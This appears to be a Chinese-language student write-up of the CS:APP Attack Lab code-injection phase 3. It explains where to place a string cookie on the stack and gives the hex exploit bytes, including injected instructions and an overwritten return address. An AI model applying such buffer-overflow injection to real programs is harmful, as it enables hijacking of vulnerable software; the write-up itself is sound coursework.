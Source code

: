 ```c
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。

![1556787385588](assets/1556787385588.png)

为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果

![1556790505565](assets/1556790505565.png)
